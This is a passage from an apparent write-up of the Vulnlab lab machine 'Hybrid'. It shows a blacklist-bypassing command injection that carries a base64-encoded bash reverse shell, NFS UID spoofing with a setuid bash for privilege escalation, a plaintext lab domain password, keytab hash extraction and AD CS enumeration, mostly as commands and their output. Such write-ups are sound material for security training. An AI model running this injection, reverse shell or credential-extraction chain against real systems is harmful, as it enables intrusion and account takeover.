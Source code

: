 There is a black list for the `:` char, so going to have to decode via b64 instead.

```
&echo${IFS}YmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuOC4wLjExMC85MDAxICAwPiYx|base64${IFS}-d|bash&
```

This works giving a shell as `www-data` on the box.

# NFS privesc

Looking around shows that there is another user called: `peter.turner@hybrid.vl` on the box. Using this you can privesc to this user via nfs by manipulating the UIDs.

To do this we need to get a copy of bash off the target then create a new user with the same id as `peter.turner@hybrid.vl`.

```
sudo useradd -u 902601108 "peter.turner@hybrid.vl" --badname
```

Then we can bash back to the share and mark it as a setuid:

```
su peter.turner@hybrid.vl
chmod +s bash
```

Then to privesc: `/opt/share/bash -p` and we are `peter.turner`

There is a keepass db, using the password from before gives domain creds:
```
peter.turner:b0cwR+G4Dzl_rw
```

This user can run ALL ALL as root, so root on mail01!

# Domain Admin
As this box is domain joined, we can read the keytab file to get the machine hash:
```
python3 keytabextract.py ~/vulnlab/hybrid/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HYBRID.VL
        SERVICE PRINCIPAL : MAIL01$/
        NTLM HASH : 0f916c5246fdbc7ba95dcef4126d57bd
        AES-256 HASH : eac6b4f4639b96af4f6fc2368570cde71e9841f2b3e3402350d3b6272e436d6e
        AES-128 HASH : 3a732454c95bcef529167b6bea476458
```

Looking for quick wins with ADCS:
```
certipy find -text -stdout -u peter.turner@hybrid.vl -p b0cwR+G4Dzl_rw -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)                                           
[*] Finding certificate templates
[*] Found 34 certificate templates
...snip...
Certificate Authorities
  0
    CA Name                             : hybrid-DC01-CA
    DNS Name                            : dc01.hybrid.vl
    Certificate Subject                 : CN=hybrid-DC01-CA, DC=hybrid, DC=vl
    Certificate Serial Number           : 26774D897E4EA8BD4DC8C54094064183
    Certificate Validity Start          : 2023-06-17 14:04:39+00:00
    Certificate Validity End            : 2124-10-01 12:38:40+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Unknown
```
